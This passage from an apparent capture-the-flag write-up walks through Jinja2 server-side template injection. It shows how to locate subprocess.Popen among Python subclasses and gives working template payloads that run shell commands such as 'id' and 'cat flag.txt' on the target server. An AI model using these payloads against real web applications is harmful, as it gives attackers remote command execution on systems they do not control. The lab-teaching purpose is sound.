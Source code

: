 I'll drop that into a file and view it with newlines replacing commas:



    cat classes.txt | tr ',' '\n' | less



One interesting class is `<class 'subprocess.Popen'>`. That should allow
me to run commands. I'll need to know the position of this class in the
array, so I can `grep` with line number (`-n`):



    oxdf@hacky$ cat classes.txt | tr ',' '\n' | grep -n Popen
    223: <class 'subprocess.Popen'>



As `grep` is numbered from one, this is actually 222 when numbered from
zero.

To run with subprocess and get the results, I'll need to call
`subprocess.Popen("[cmd]", stdout=subprocess.PIPE).communicate()`. In
this case, that'll look like:



    {{ ''.__class__.__mro__[1].__subclasses__()[222]('id', stdout=?).communicate() }}



I show a `?` in there where it's not clear how to get `subprocess.PIPE`.
PayloadsAllTheThings shows the answer with this example:



    {{ ''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}



The [Python source](https://github.com/python/cpython/blob/f235dd0784b92824565c4a4e72adc70fa3eab68f/Lib/subprocess.py#L259)
also shows `subprocess.PIPE` is -1, so I can just use that value and not
need to reference the object.

I'll give this payload a try, submitting it as my name:



    {{ ''.__class__.__mro__[1].__subclasses__()[222]('id', shell=True, stdout=-1).communicate() }}



On clicking the confirm link, I get the result:

![](/img/image-20210908165349973.png)





